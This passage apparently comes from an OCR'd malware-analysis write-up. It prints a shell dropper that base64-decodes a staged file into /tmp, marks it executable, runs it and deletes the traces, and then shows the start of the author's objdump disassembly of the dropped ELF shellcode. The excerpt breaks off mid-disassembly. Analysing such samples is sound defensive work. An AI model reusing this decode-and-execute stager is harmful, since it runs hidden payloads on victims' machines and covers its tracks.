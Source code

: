     ((which base64 >&2 && base64 -d -) ||\
    (which base64 >&2 && base64 --decode -) ||\
    (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) ||\
    (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') ||\
    (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)'))\ 2> /dev/null > '/tmp/ACsmb' < '/tmp/ccXxY.b64'
    
    chmod +x '/tmp/ACsmb'

    '/tmp/ACsmb'
    
    rm -f '/tmp/ACsmb'
    rm -f '/tmp/ccXxY.b64'
    ```

    I disassemble the binary: `objdump -D -Mintel,x86-64 -b binary -m i386 /tmp/ACsmb`
    ```
    ACsmb:     file format binary


    Disassembly of section .data:

    00000000 <.data>:
    0:   7f 45                   jg     0x47
    2:   4c                      rex.WR
    3:   46 02 01                rex.RX add r8b,BYTE PTR [rcx]
    6:   01 00                   add    DWORD PTR [rax],eax
            ...
    10:   02 00                   add    al,BYTE PTR [rax]
    12:   3e 00 01                ds add BYTE PTR [rcx],al
    15:   00 00                   add    BYTE PTR [rax],al
    17:   00 78 00                add    BYTE PTR [rax+0x0],bh
    1a:   40 00 00                rex add BYTE PTR [rax],al
    1d:   00 00                   add    BYTE PTR [rax],al
    1f:   00 40 00                add    BYTE PTR [rax+0x0],al
            ...
    32:   00 00                   add    BYTE PTR [rax],al
    34:   40 00 38                add    BYTE PTR [rax],dil
    37:   00 01                   add    BYTE PTR [rcx],al
    39:   00 00                   add    BYTE PTR [rax],al
    3b:   00 00                   add    BYTE PTR [rax],al
    3d:   00 00                   add    BYTE PTR [rax],al
    3f:   00 01                   add    BYTE PTR [rcx],al
    41:   00 00                   add    BYTE PTR [rax],al
    43:   00 07                   add    BYTE PTR [rdi],al
            ...
    51:   00 40 00                add    BYTE PTR [rax+0x0],al
    54:   00 00                   add    BYTE PTR [rax],al
    56:   00 00                   add    BYTE PTR [rax],al
    58:   00 00                   add    BYTE PTR [rax],al
    5a:   40 00 00                rex add BYTE PTR [rax],al
    5d:   00 00                   add    BYTE PTR [rax],al
    5f:   00 fa                   add    dl,bh
    61:   00 00                   add    BYTE PTR [rax],al
    63:   00 00                   add    BYTE PTR [rax],al
    65:   00 00                   add    BYTE PTR [rax],al
    67:   00 7c 01 00             add    BYTE PTR [rcx+rax*1+0x0],bh
    6b:   00 00                   add    BYTE PTR [rax],al
    6d:   00 00                   add    BYTE PTR [rax],al
    6f:   00 00                   add    BYTE PTR [rax],al
    71:   10 00                   adc    BYTE PTR [rax],al
    73:   00 00                   add    BYTE PTR [rax],al
    75:   00 00                   add    BYTE PTR [rax],al
    77:   00 31                   add    BYTE PTR [rcx],dh
    79:   ff 6a 09                jmp    FWORD PTR [rdx+0x9]
    7c:   58                      pop    rax